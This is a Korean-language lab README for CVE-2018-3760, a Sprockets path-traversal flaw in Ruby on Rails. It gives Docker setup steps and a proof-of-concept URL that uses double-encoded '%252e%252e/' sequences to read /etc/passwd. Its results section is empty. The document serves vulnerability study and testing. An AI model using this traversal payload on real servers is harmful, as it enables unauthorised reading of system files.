

# # CVE-2018-3760

**Contributors**

- [정소은(@whitecloud03)](https://github.com/whitecloud03)

<br/>

### 요약

-   Ruby On Rails는 개발 환경에서 정적파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임 워크입니다. 
-   Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 경로 횡단 취약성이 있습니다. 공격자는 %252e%252e/을 사용해 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있습니다.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행합니다.
-   'http://localhost:3000'을 방문하면 환영 페이지가 나타납니다.



### POC
-   /etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하면 오류를 발생시킵니다.


- /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 읽을 수 있습니다.

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

<br/>

### 결과


<br/>

### 정리

- Sprockets 루비 프레임 워크에서, 공격자는 %252e%252e/를 이용해 루트 디렉토리에 접근할 수 있다.

